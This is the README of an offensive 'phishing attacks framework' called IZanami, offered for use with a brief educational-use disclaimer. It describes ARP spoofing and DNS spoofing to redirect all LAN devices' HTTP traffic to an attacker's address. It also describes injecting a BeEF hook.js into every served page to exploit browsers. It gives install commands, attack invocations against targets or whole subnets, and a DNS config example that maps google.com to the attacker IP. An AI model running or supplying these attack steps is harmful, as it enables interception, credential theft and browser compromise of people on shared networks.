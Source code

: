 # IZanamiFramework
![Python 3.x](https://img.shields.io/badge/python-v3.7-blue) ![Platform linux-debian-based](https://img.shields.io/badge/platform-linux--debian--based-red) ![BETA_VERSION](https://img.shields.io/badge/version-beta-yellow)

<p align="center">
  <img src="https://i.ibb.co/mBGq2yv/logo.png">
</p>
The Izanami Framework is a phishing attacks framework, that use ARP spoof attack and DNS spoofing attack to redirect all LAN devices HTTP requests to a specified address to perform a Powerful Phishing attack, IZanami inject beef-xss hook.js file into each requested HTML page , to target and exploit users's browsers.

# AUTHOR 
```
    [+] AUTHOR:       Yasser Janah
    [+] GITHUB:       https://github.com/yasserjanah
    [+] TWITTER:      https://twitter.com/th3x0ne
    [+] FACEBOOK:     https://fb.com/yasser.janah0
```
---
# Legal disclaimer
Usage of ***IZanami Framework***  for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. ***Only use for educational purposes.***

---
# Screenshots
![ARP_SPOOFING_and_DNS_SPOOFING](https://i.ibb.co/9n0PJdv/Screenshot-from-2020-04-09-14-40-49.png)

# Installation
```
git clone https://github.com/yasserjanah/IZanamiFramework.git
cd IZanamiFramework/
chmod +x arp_spoof.py dns_spoof.py runserver.sh
cd scripts
chmod +x install.sh
./installs.sh
```
# Usage
    *** Run this commands with root permissions ***
    
    1) run ARP Spoofing attack :
```
    $ ./arp_spoof.py -t <TARGET OR TARGET(s) SEPARATED By ',' OR The WHOLE NETWORK (example: 192.168.1.0/24)> -g <GATEWAY> -i <INTERFACE>
```
    2) configure config/dns.conf :
```
    $ nano config/dns.conf 
        """ example of content of this file """
        [google.com]
            ip = <YOUR_IP OR THE_IP_WHO_YOU_WANT_TO_REDIRECT_CLIENT_TO>
            rule = O ==> Only This Domain OR AS ==> All Subdomain 
```
    3) run DNS Spoofing attack :
```
    $ ./dns_spoof.py
```
    4) run web server :
```
    $ ./runserver.sh
```
DEMO Video Soon
